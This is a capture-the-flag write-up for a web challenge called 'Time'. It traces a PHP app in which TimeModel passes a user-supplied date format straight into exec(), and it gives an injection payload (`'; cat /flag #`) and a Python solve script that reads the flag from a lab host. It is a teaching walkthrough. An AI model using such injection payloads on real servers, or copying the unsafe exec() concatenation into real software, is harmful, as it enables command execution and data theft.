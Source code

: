 # Time

> Get the current date and time, anytime, anywhere!

------

![img/20210725134152.png](img/20210725134152.png)

Starting this deployable instance, we are greeted with a page that simply... tells the time.

We can see the source with `Ctrl+U`:

```html
<html>
<head>
  <meta name='author' content='makelaris, makelarisjr'>
  <meta name='viewport' content='width=device-width, initial-scale=1, shrink-to-fit=no'>
  <title>Time</title>
  <link link='preload' href='//fonts.googleapis.com/css2?family=Press+Start+2P&display=swap' rel='stylesheet'>
  <link rel='stylesheet' href='//maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css' integrity='sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm' crossorigin='anonymous'>
  <link rel='icon' href='/assets/favicon.png' />
  <link rel='stylesheet' href='/static/main.css' />
</head>
<body>
  <nav class="navbar navbar-dark bg-primary navbar-expand-lg mb-4">
    <a class="navbar-brand mb-0" href="?format=%H:%M:%S">🕒 What's the time?</a>
    <div class="collapse navbar-collapse" id="navbarSupportedContent">
      <ul class="navbar-nav">
        <li class="nav-item">
          <a class="nav-link" href="?format=%Y-%m-%d">📅 What's the date? <span class="sr-only">(current)</span></a>
        </li>
      </ul>
    </div>
  </nav>
  <div class="jumbotron vertical-center">
    <div class="container">
      <div class="container">
        <h1 class="jumbotron-heading">><span class='text-muted'>It's</span> 17:23:57<span class='text-muted'>.</span></h1>
      </div>
    </div>
  </div>
</body>
<script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n" crossorigin="anonymous"></script>
<script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6" crossorigin="anonymous"></script>
</html>
```

Examining the links present in this, we can see a `?format=%Y-%m-%d` URL which indicates we could supply a string formatter to represent the date and time.

While this is handy, it doesn't seem like an attack vector.

Thankfully, the challenge provides source code that we can download and examine how this application works.

## Examining the source code

```
web_time
├── build_docker.sh
├── challenge
│   ├── assets
│   │   └── favicon.png
│   ├── controllers
│   │   └── TimeController.php
│   ├── index.php
│   ├── models
│   │   └── TimeModel.php
│   ├── Router.php
│   ├── static
│   │   └── main.css
│   └── views
│       └── index.php
├── config
│   ├── fpm.conf
│   ├── nginx.conf
│   └── supervisord.conf
├── Dockerfile
└── flag

```

Note that the `flag` file present is not the real flag -- just a placeholder. We still need to find the flag on the actual remote target.

First thing I do is examine the `Dockerfile` to find where the flag would  be located inside the remote instance.

```bash
FROM debian:buster-slim

# Setup user
RUN useradd www

# Install system packeges
RUN apt-get update && apt-get install -y supervisor nginx lsb-release wget

# Add repos
RUN wget -O /etc/apt/trusted.gpg.d/php.gpg https://packages.sury.org/php/apt.gpg
RUN echo "deb https://packages.sury.org/php/ $(lsb_release -sc) main" | tee /etc/apt/sources.list.d/php.list

# Install PHP dependencies
RUN apt update && apt install -y php7.4-fpm

# Configure php-fpm and nginx
COPY config/fpm.conf /etc/php/7.4/fpm/php-fpm.conf
COPY config/supervisord.conf /etc/supervisord.conf
COPY config/nginx.conf /etc/nginx/nginx.conf

# Copy challenge files
COPY challenge /www

# Setup permissions
RUN chown -R www:www /www /var/lib/nginx

# Copy flag
COPY flag /flag

# Expose the port nginx is listening on
EXPOSE 80

# Populate database and start supervisord
CMD /usr/bin/supervisord -c /etc/supervisord.conf
```

That tells me the flag is at `/flag`, so we at least know where to look once we find an attack vector.

Now we can look in the `challenge` folder. Given the directory names `controllers`, `views` and `models` I assume this is an MVC application. 

First I checked out the `views/index.php` file, but this seemed identical to what we were already seeing with "
View-Source". So I figured to better understand the logic behind it, I would check out the `controllers/TimeController.php`:

```php

<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

This indicated a new `TimeModel` object was being created, and it used that to handle the supplied string format. With that said, I should check out what that `TimeModel` is made up of in the `models/TimeModel.php`

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

Aha! And there is our glaring vulnerability.

We can see the `$time = exec($this->command);` syntax runs a shell command, with the `command` variable being defined like so:

```php
$this->command = "date '+" . $format . "' 2>&1";
```

This has a clear **command injection vulnerability.**

We can "break out" of the string by prefixing input with a `'` single-quote, and then avoid the redirection at the end with adding a trailing `#` comment to our input.

That makes an easy request:

```
/?format='; cat /flag #
```

This is best to do with `curl` or Python in my opinion so the URL formatting and the `#` anchor symbol don't get in the way.


## Solve script

```python
#!/usr/bin/env python3

url = "http://159.65.58.156:30237/" # switch this out to your IP and port
import re

import requests

r = requests.get(url, params={"format": r"%H'; cat /flag #"})
print(re.findall(r"HTB{.*?}", r.text)[0])
```

```
HTB{tim3_t4lks...4nd_1t_s4ys_1ts_t1m3_t0_PWN!!!}
```
